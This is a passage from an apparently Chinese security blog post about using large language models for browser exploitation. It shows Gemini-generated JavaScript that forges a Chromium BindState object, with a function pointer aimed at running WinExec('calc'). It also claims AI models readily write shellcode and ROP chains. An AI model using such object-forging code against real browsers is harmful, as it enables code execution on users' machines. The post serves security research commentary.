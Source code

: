 我们尝试让Gemini伪造浏览器利用中常用的BindState  
对象，仅需发送该对象的定义和简单的提示要求即可生成基本可用的结果：  
  
**Gemini**  
  
  
```
const buffer = new ArrayBuffer(totalSize);

// 获取 DataView 以便于操作不同数据类型
const view = new DataView(buffer);

// 假设 ref_count_ 偏移量为 0
// polymorphic_invoke_ 偏移量为 8
// destructor_ 偏移量为 16
// query_cancellation_traits_ 偏移量为 24

// polymorphic_invoke_ 应该指向一个执行 WinExec("calc", 5) 的函数
// 在这里，我们用一个占位符表示，实际需要将其替换为对应的函数指针
const winExecFuncPtr = 0x12345678n; // 替换为实际的函数指针, 使用BigInt

// destructor_ 可以暂时设置为一个空函数或者一个安全的销毁函数
const destructorPtr = 0x87654321n; // 替换为实际的函数指针, 使用BigInt

// query_cancellation_traits_ 可以设置为总是返回 true 的函数
const queryCancellationTraitsPtr = 0xabcdef01n; // 替换为实际的函数指针, 使用BigInt

// 将数据写入 ArrayBuffer, 使用 BigUint64 来处理64位数据
view.setBigUint64(0, 1n, true); // ref_count_ 初始化为 1
view.setBigUint64(8, winExecFuncPtr, true); // little-endian
view.setBigUint64(16, destructorPtr, true); 
view.setBigUint64(24, queryCancellationTraitsPtr, true); 

// 假设 BindStateBase 对象从偏移量 x 开始
const x = 0; // 假设从头开始

// 获取指向 BindStateBase 对象的指针
const bindStatePtr = buffer.byteOffset + x;

// 创建一个 TypedArray 来模拟 C++ 对象访问, 使用 BigUint64Array
const bindStateView = new BigUint64Array(buffer, bindStatePtr);
```  
  
  
  
在这个任务上，大模型显示出了他的威力，再延伸拓展，诸如定制化编写shellcode、ROP等任务他更是不在话下。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/6aFicjrXnvggsdr3EDdOY2HK28OxSIictlqanZYSAgAcrymibDQXBKDDd1km585GeqvGHyO05G8xeaB4wP0Kju95w/640?wx_fmt=jpeg "Black White Grey Simple Fashion Style Poster Instagram Story (3).jpg")  
  
  
  
尽管如今的大模型能力飞速跃升，但在漏洞利用这样的细分场景下，寻找堆喷对象、内存破坏的目标对象等任务仍无法通过大模型来完成。此时需要的能力是，从海量的结构体数据中筛选出符合利用需求，而这需要大模型“聪明”的大脑中能拥有大量的记忆以至于能塞下一整个代码库。但若不将如此艰巨的任务交给大模型，一些日常的工具性的任务他们还是可以出色地完成的。  
  
  
****  
**参  考：**  
  